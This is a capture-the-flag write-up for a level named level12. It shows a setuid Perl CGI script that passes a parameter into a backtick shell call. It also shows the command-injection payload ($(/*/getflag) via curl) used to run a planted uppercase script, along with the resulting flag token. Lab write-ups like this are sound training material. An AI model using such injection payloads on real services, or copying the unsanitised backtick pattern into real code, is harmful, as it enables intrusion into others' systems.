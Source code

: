 ## writeup level12

When logging in as user leve12, we see a perl file:
```shell
$ ls -l level12.pl
-rwsr-sr-x+ 1 flag12 level12 464 Mar  5  2016 level12.pl

$ cat ./level12.pl
```
```perl
#!/usr/bin/env perl
# localhost:4646
use CGI qw{param};
print "Content-type: text/html\n\n";

sub t {
  $nn = $_[1];
  $xx = $_[0];
  $xx =~ tr/a-z/A-Z/;
  $xx =~ s/\s.*//;
  @output = `egrep "^$xx" /tmp/xd 2>&1`;
  foreach $line (@output) {
      ($f, $s) = split(/:/, $line);
      if($s =~ $nn) {
          return 1;
      }
  }
  return 0;
}

sub n {
  if($_[0] == 1) {
      print("..");
  } else {
      print(".");
  }
}

n(t(param("x"), param("y")));
```
We also see the script is running on port `4646`:
```shell
$ netstat -tulpn | grep 4646
tcp6       0      0 :::4646                 :::*                    LISTEN      -
```
So by quickly analyzing this perl script, we see that we can pass in an `x` parameter which will be uppercased and every space/newline and everything after it will be removed. \
Then it will be used inside the shell execution `egrep "^OUR_PARAM" /tmp/xd 2>&1`. We might want to execute `getflag` somehow: \
So we will need to create a script in uppercase in /tmp, and with the help of a subshell and globbing we will be able to execute it:
```shell
$ cat > /tmp/GETFLAG <<EOF
#!/bin/sh
getflag > /tmp/flag
EOF

$ chmod +x /tmp/GETFLAG

$ curl localhost:4646?x='$(/*/getflag)'

..$ cat /tmp/flag
Check flag.Here is your token : g1qKMiRpXf53AWhDaU7FEkczr